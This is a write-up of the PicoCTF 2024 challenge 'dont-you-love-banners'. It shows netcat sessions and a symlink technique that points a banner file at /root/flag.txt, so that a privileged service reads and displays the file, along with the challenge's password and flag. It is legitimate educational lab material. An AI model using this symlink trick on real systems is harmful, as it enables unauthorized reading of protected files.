 ```yaml
---
title: "Pico CTF 24 - dont-you-love-banners"
date: 2024-03-26T16:00:00-05:00
draft: false
tags: ['ctf','pico','general']
summary: "Abusing symlinks to include and subsequently display arbitrary textfiles in place of standard SSH banners."
---
```


## Introduction

dont-you-love-banners was a challenge in PicoCTF 2024. The challenge was classified as General Skills, and was quit straightforward, despite having quite a bit of chatter in the PicoCTF Discord.

The description tells us that there is a server leaking "crucial information" on one port, and then a an application running on another port on the same machine. IT also lets us know that the flag is in `/root`. We're given two hints here, one advises a small amount of password cracking or guessing, and the other asks about symlink.

## Solving

### The Leaky Machine

So we're going to start by exploring the leaked information from the initial server by netcatting that host and port. While the challenge does not specify this directly, given that we've got some prerequisite information about banners, I figured this would be a good starting point. And I was very correct, this is serving a banner with a password in it.

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 58837
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

### The Exploit

So now we have a password, we can see what it goes to.
We're going to step through a bit of question and answer, and the results were fairly trivial to google.

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 63259
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$ ls
ls
banner  text
```

Now we have a shell. I started by catting out banner and text, to see where I'm at and what I'm dealing with.

```plaintext
player@challenge:~$ cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
keep digging
```

We can see that the banner we saw when netcatting onto the machine is in a text document. This will become important later!

For now, let's go visit the flag and see if we can cat it out.

```plaintext
player@challenge:~$ cd /root
player@challenge:/root$ ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat: flag.txt: Permission denied
```

Not quite that easy. However, our hints do give us a good launching point, which is that a symlink might be the key here. We can try to symlink the flag to take the place of the banner, and see if it's being read by something with a higher privilege level.

```bash
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
ln: failed to create symbolic link '/home/player/banner': File exists
player@challenge:/root$ rm ~/banner
rm ~/banner
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
player@challenge:/root$ cd ~
player@challenge:~$ cat banner
cat: banner: Permission denied
```

We still can't cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 63259
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password? 
```

Flag obtained. I didn't spend too much time looking into this challenge, but I believe the initial interaction on port 63259 was through a Python application which dropped us into a shell. The Python application was reading the contents of `banner` from the home directory of that user. As such, it can be assumed that the Python program had elevated privileges to read the file we symlinked. So even though **we** couldn't read it, the Python application dropping us into the shell could, and reconnecting just spit it back out at us.

## Summary

Fairly easy challenge, but worth a large sum of points. A good exercise in symlinks and understanding privileges associated with files in Linux. I believe this was one of the first challenges I solved in Pico 2024, and I'm quite glad I went down the road I did right away, as I can see a world where people were scratching their heads looking for privesc or a more stable shell given the first hint of light password cracking.
